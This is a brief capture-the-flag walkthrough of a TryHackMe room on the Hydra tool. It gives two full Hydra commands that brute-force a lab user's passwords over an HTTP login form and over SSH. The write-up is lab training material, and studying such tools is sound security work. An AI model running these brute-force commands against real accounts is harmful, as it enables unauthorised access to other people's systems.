 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

## **Walkthrough**

**Use Hydra to brute force molly's web password. What is flag 1?**

Opened up the webconsole and tried entering the credentials to see what the request would look like. We can see the failed login attempt message and the fields used for login which we can used to craft our hydra command.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

`hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V`

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

`hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V`
